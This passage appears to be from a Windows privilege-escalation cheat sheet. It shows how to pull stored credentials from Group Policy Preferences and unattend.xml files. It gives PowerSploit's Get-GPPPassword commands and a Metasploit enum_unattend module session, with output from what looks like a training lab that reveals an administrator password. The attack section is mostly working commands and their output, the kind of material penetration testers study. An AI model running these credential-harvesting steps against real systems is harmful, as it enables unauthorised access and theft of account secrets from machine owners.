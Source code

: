 ```
```

### 4.2 - Group Policy Preferences

#### 4.2.1 - Powersploit

```
PS C:\> ipmo .\PowerUp.ps1

PS C:\> Get-CachedGPPPassword

PS C:\> Get-GPPPassword
```

#### 4.2.2 - Metasploit

- **MSF Windows Gather Unattended Answer File Enumeration Post Module**

```
msf > use post/windows/gather/enum_unattend

msf post(windows/gather/enum_unattend) > options

Module options (post/windows/gather/enum_unattend):

   Name     Current Setting  Required  Description 
   ----     ---------------  --------  ----------- 
   GETALL   true             yes       Collect all unattend.xml that are found
   SESSION                   yes       The session to run this module on

msf post(windows/gather/enum_unattend) > set getall <true | false>

msf post(windows/gather/enum_unattend) > set session <sessions_id>

msf post(windows/gather/enum_unattend) > run
```

- When we run the module we gathered the credentials.

```
meterpreter > run post/windows/gather/enum_unattend

[*] Reading C:\Windows\panther\unattend.xml
[+] Raw version of C:\Windows\panther\unattend.xml saved as: /root/.msf4/loot/20220529162508_default_10.10.229.49_windows.unattend_364476.txt
Unattend Credentials
====================

 Type  Domain  Username  Password     Groups
 ----  ------  --------  --------     ------
 auto          Admin     password123

[+] Unattend Credentials saved as: /root/.msf4/loot/20220529162508_default_10.10.229.49_windows.unattend_378467.txt
```
